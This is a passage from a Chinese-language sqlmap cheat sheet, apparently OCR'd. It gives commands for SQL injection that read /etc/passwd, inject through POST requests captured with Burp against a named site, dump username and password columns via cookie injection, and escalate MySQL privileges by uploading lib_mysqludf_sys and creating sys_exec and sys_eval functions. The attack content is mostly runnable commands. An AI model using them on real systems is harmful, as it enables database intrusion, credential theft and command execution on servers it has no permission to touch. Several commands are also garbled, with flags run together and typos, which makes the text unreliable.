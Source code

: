 ### 12.读取linux下文件

 sqlmap.py-u "url" --file /etc/password

### 13.延时注入

sqlmap.py -u URL --technique -T--current-user

### 14. sqlmap 结合burpsuite进行post注入

结合burpsuite来使用sqlmap：

（1）浏览器打开目标地址[http://www.antian365.com](http://www.antian365.com/)

（2）配置burp代理(127.0.0.1:8080)以拦截请求

（3）点击登录表单的submit按钮

（4）Burp会拦截到了我们的登录POST请求

（5）把这个post请求复制为txt, 我这命名为post.txt 然后把它放至sqlmap目录下

（6）运行sqlmap并使用如下命令：

```
./sqlmap.py -r post.txt -p tfUPass
```

### 15.sqlmap cookies注入

sqlmap.py -u "http://127.0.0.1/base.PHP"–cookies "id=1" –dbs –level 2

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie里面的参数，当>=3的时候将检查User-agent和Referer。可以通过burpsuite等工具获取当前的cookie值，然后进行注入：

```
sqlmap.py -u 注入点URL --cookie"id=xx" --level 3sqlmap.py -u url --cookie "id=xx"--level 3 --tables(猜表名)sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 --coiumnssqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 -C username，password --dump
```

###  16.mysql提权

（1）连接mysql数据打开一个交互shell:

```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --sql-shellselect @@version;select @@plugin_dir;d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\
```

（2）利用sqlmap上传lib_mysqludf_sys到MySQL插件目录:

```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --file-write=d:/tmp/lib_mysqludf_sys.dll--file-dest=d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\lib_mysqludf_sys.dllCREATE FUNCTION sys_exec RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'CREATE FUNCTION sys_eval RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'select sys_eval('ver'); 
```
